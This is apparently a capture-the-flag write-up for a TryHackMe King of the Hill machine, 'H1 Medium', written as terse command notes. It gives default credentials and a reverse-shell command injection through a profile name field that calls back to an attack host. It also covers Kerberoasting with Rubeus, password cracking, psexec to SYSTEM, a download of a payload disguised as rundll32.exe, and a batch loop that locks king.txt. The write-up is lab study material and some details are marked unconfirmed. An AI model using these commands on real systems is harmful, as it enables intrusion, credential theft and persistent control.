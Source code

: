 
# H1 Medium THM Public Writeup

#### Important Machine related information

#### Map
```
nmap service overview
```
#### Default Credentials
```
main : winniethepooh
# Apparently - not confirmed amongst all references
achilles : winniethepooh
```

Users:
```
agamemnon
achilles
patrocles
```

#### Network Services to Foothold

Port 80 is interesting. Create an account and navigate to profile. Open dev tools and block script.js URL. Reload page.
```
domain troy.thm
```


```bash
# Apparently
achilles : winniethepooh
cme smb TROY.thm -u achilles -p /usr/share/wordlists/rockyou.txt
```

```
psexec.py TROY.thm/achilles:winniethepooh@<IP>
```

Signup then CMD on /profile
```bash
/signup
/profile
# Use change name field for remote command execution.

# reverse shell listener (on attack machine)
nc -lvnp 9001

# upload nc executable (name field)
cheese | powershell curl <attack-ip>:8000/nc.exe -o nc.exe

# engage reverse shell (name field)
cheese | nc.exe <attack-ip> 9001 -e powershell
```
Windows shell foothold established.
```bash
# upload Ghostpack-CompiledBinaris/Rubeus.exe
curl <attack-ip>:<port>/Rubeus.exe -o Rubeus.exe

# dump kerberoast user hash
.\Rubeus.exe kerberoast /nowrap

# crack hash 
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs hash
```

#### Privilege Escalation

```bash
# deploy impacket
python3 psexec.py troy.thm/achilles:winniethepooh@<target-ip>
```
Successfully elevated to NT AUTHORITY\SYSTEM.
```bash
# become king
cd C:\
echo <name> > king.txt

# find flags
dir flag*.txt /s 
type Users\<user>\Desktop\flag.txt

# setup rdp and access machine
net localgroup "Remote Desktop Users" achilles /add
net user achilles <newpassword>
xfreerdp /u:achilles /p:newpassword /v:<target-IP> /size:90%
```

Seems to be a pattern across writeups!
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.199.178:1234/client.exe','c:\users\administrator\music\rundll32.exe')"
attrib +r king.txt
```

`START /b sys.bat`
```bat
:loop
attrib -r -a -h -s c:\king.txt
echo Aquinas > c:\king.txt
goto loop
```

#### Flags
- `king.txt` is at `c:\king.txt`
```
C:\Users\achilles\Desktop\flag.txt
C:\Users\agamemnon\Desktop\flag.txt
C:\Users\hector\Desktop\flag.txt
C:\Users\helen\Desktop\flag.txt
C:\Users\patrocles\Desktop\flag.txt
```
#### References

https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-h1-medium.md
https://github.com/Machinh/Koth-THM/blob/main/H1-MEDIUM
https://gist.github.com/comradecheese/dbf38607460a03fdd93b58767a598d3a
https://0xjin.medium.com/h1-tryhackme-koth-medium-box-writeup-90bf008e91a7
